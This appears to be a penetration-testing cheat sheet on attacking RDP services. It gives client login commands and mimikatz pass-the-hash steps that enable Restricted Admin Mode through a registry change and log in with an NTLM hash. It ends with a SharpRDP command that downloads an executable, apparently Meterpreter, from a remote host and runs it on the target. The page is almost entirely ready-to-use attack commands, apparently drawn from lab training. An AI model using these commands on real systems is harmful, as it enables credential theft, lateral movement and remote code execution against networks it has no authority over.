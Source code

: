 # (3389) RDP

### Tools for RDP

<table><thead><tr><th width="163"></th><th width="154">Remmina</th><th>xfreerdp</th><th>rdesktop</th></tr></thead><tbody><tr><td>Command</td><td>remmina</td><td>xfreerdp /u:user /p:password321 /v:10.10.202.204</td><td>rdesktop -u admin -p password123 10.10.202.204</td></tr></tbody></table>

<details>

<summary>Restricted Admin Mode</summary>

* Not enabled by default
* Allows Pass-the-hash RDP login if enabled

Enabled using:

```
mimikatz # sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
Enter-PSSession -Computer appsrv01
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

Then, login using PtH:

```
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```

Or using Remmina:

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Or using xfreerdp:

```
xfreerdp /u:admin /pth:2892D26CDF84D7A70E2EB3B9F05C425E /v:192.168.122.6 /cert-ignore
```

</details>

<details>

<summary>Headless RDP Connection</summary>

* SharpRDP: RDP without GUI

```
sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/met.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=corp1\dave password=lab
```

</details>
